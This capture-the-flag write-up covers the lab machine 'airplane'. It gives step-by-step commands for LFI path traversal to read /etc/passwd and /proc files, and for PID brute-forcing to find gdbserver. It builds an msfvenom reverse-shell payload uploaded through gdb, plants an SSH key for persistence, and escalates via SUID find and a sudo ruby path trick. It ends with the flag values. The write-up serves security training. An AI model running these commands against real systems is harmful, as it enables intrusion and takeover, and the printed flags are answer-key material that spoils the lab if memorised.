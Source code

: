 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 6048 | X11? |
| 8000 | HTTP |



# RECONNAISSANCE
---

We need to add `airplane.thm` to `/etc/hosts`:

```bash
echo '10.10.62.55 airplane.thm' | sudo tee -a /etc/hosts
```

Once we enter the website, we can notice the following:

![Pasted image 20250422135925.png](../../IMAGES/Pasted%20image%2020250422135925.png)

The url seems suspicious, it seems as it could be vulnerable to LFI, let's try reading `/etc/passwd`:


![Pasted image 20250422140134.png](../../IMAGES/Pasted%20image%2020250422140134.png)

As we can see, if we use `path traversal`, we can read `/etc/passwd`, since this server is vulnerable to `LFI`, we can test other stuff, for example, let's try reading
`proc/self/environ`:

```
../../../../../proc/self/environ
```

![Pasted image 20250422141057.png](../../IMAGES/Pasted%20image%2020250422141057.png)

We get this:

```
LANG=en_US.UTF-8
LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=5da2e4a284be419f834a40bee5eeac5f
JOURNAL_STREAM=9:18702
```

Based on that, we can find the `app.py` on `/home/hudson/app/app.py`, let's try reading it:

```
../../../../..//home/hudson/app/app.py
```


![Pasted image 20250422141515.png](../../IMAGES/Pasted%20image%2020250422141515.png)

Not much, seems like this only tells us the way it's vulnerable to LFI, but we can keep on digging, for example, we can try reading:

```
proc/self/cmdline
```

![Pasted image 20250422141742.png](../../IMAGES/Pasted%20image%2020250422141742.png)

It works, based on the scan, we notice we got something else running on port `6048`, we can use the same technique to visualize what may be running on it, we need to change it to this format:

```
/proc/pid/cmdline
```

`/proc/pid/cmdline` is similar to`/proc/self/cmdline`, but instead of showing the command-line arguments of the **current process** (`self`), it reveals the command-line details of **any running process** on the system, identified by its Process ID (PID). This can be extremely useful for privilege escalation or lateral movement in a CTF or penetration testing scenario.

We need to perform brute force in order to find the different `PIDS`, we can use `ffuf` or in this case, I will use `caido` to perform the brute force, let's start by creating a file with PIDS:

```
seq 1000 > id.txt
```

Now, we can use `caido`'s automate functionality:


![Pasted image 20250422150920.png](../../IMAGES/Pasted%20image%2020250422150920.png)

![Pasted image 20250422151532.png](../../IMAGES/Pasted%20image%2020250422151532.png)

Once the scan is finished, we can filter in the following way:

```
resp.raw.ncont:"Page" AND resp.raw.cont:"gdb"
```

We can see the following:

![Pasted image 20250422151516.png](../../IMAGES/Pasted%20image%2020250422151516.png)

Seems like this is running `gdbserver`, let's begin exploitation.



# EXPLOITATION
---

We can use the following information:

**HackTricks**: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute


We can follow this PoC to get a shell:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

Nice, let's do it:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf
gdb binary.elf
```

![Pasted image 20250422151922.png](../../IMAGES/Pasted%20image%2020250422151922.png)

We get prompted with this, we can now proceed:

```BASH
target extended-remote 10.10.251.121:6048
remote put binary.elf /home/hudson/binary.elf
set remote exec-file /home/hudson/binary.elf
nc -lvnp 4444 # Outside of the gdb prompt
run
```

If we do everything correctly, we get the connection on our listener:

![Pasted image 20250422152429.png](../../IMAGES/Pasted%20image%2020250422152429.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250422152543.png](../../IMAGES/Pasted%20image%2020250422152543.png)

Let's use `linpeas` to check any PE vector:

![Pasted image 20250422153011.png](../../IMAGES/Pasted%20image%2020250422153011.png)

There we go, we find an interesting `SUID` binary, let's search `GTFOBINS`:

![Pasted image 20250422153104.png](../../IMAGES/Pasted%20image%2020250422153104.png)

So, we need to do:

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![Pasted image 20250422153149.png](../../IMAGES/Pasted%20image%2020250422153149.png)

We escalated to `carlos`, to make the experience more comfortable, we can create a ssh-key and put it in `authorized_keys`:

```
ssh-keygen -t rsa
```

Now, copy the contents:

```
echo "Contents of your key" >> /home/carlos/.ssh/authorized_keys
```

Once we do it, we can go into ssh using:

```
ssh carlos@airplane.thm -i airplane_rsa
```

![Pasted image 20250422153822.png](../../IMAGES/Pasted%20image%2020250422153822.png)

Nice, let's look around again, for example, let's check if we got `sudo` privileges:

```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
 (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Let's look up `GTFOBINS`:

![Pasted image 20250422153927.png](../../IMAGES/Pasted%20image%2020250422153927.png)

So, in order to get root shell, we can do:

```bash
echo 'exec "/bin/bash"' >> /tmp/privesc.rb
sudo /usr/bin/ruby /root/../tmp/privesc.rb
```

![Pasted image 20250422154046.png](../../IMAGES/Pasted%20image%2020250422154046.png)

There we go, we can finally read both flags and finish the CTF:

```
root@airplane:/home/carlos# cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

```
root@airplane:/home/carlos# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

![Pasted image 20250422154148.png](../../IMAGES/Pasted%20image%2020250422154148.png)

